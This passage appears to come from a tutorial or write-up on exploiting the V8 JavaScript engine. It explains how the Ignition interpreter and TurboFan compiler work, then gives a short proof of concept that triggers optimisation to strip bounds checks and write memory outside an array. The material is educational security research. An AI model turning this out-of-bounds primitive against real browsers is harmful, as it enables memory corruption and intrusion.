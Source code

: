 Basically, a code will be executed with **interpreter \(**_**Ignition**_**\)** by default, and V8 will keep track of how many times the code segments are executed. If the code segments are executed many times \(hot code segments\), the code segments will be compiled with a **compiler \(**_**TurboFan**_**\)**. In this compilation, optimisations will be applied, thus producing a faster execution time.

![](../.gitbook/assets/image%20%2813%29.png)

Therefore, to make the optimiser remove the bounds-checking, we may need to run the function a lot of times before, thus triggering the JS engine to compile and optimise our `fun` function, eliminating the bounds checking.

```javascript
function fun(arg) {
	let x = new Array('x')
	let y = new Array('y')
	x[(arguments.length >> 16) * 3] = 'ehe'
	return y
}

for (let i = 0; i < 10000; i++) fun(1) // trigger optimization

args = []
args.length = 65537
console.log(fun(...args)) // output: ["ehe"]
```

Now, we can see from the output of the above code that we are able to write memory outside array _x_.
